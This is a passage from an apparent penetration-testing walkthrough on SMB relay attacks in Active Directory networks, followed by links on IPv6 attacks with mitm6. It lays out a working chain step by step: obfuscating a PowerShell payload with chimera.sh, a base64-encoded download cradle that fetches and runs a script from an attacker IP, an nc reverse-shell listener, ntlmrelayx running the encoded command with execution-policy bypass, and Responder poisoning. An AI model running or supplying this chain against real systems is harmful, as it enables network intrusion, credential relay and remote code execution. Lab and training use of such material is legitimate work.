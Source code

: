```
./chimera.sh -f ps.ps1 -a -o ps1.ps1
```

---

> Change it to your ip, copy and launch it in your powershell.

```Powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes("IEX(New-Object System.Net.WebClient).DownloadString('http://<ip>:8080/ps1.ps1')"))
```

> At this point we already have the script and the malicious command, obfuscated.

> Simple, we will execute the same steps, only that in the nltmrelayx part, we will launch the command in another way


#### 1
```
python3 -m http.server 8080
```
#### 2
```
rlwrap nc -nlvp 8443
```
#### 3
```
impacket-ntlmrelayx -tf targets.txt -smb2support -c "Powershell -NoP -NonI -W 1 -exec Bypass -enc "B64 ENC Command here""
```
#### 4
```
python3 responder.py -I interface -rdw
```

<img src = "https://user-images.githubusercontent.com/84678370/141362814-d20006df-d29f-4021-906d-0305e0f5d43b.png" width="700" height="500" />

> Bypass successfully, it was simple!

----

# SMB Relay & IPV6

> In this part, I am going to focus more on explaining directly how to use some tools to attack IPV6.

> Here are some articles that explain everything more in depth.

- - <a href="https://intrinium.com/mitm6-pen-testing/" style="Scolor:bluesky">__intrinium__

- - <a href="https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/" style="color:bluesky">__Fox-it__

- - <a href="https://aas-s3curity.gitbook.io/cheatsheet/internalpentest/active-directory/exploitation/exploit-without-account/smb-relay" style="color:bluesky">__s3curity-GitBook__
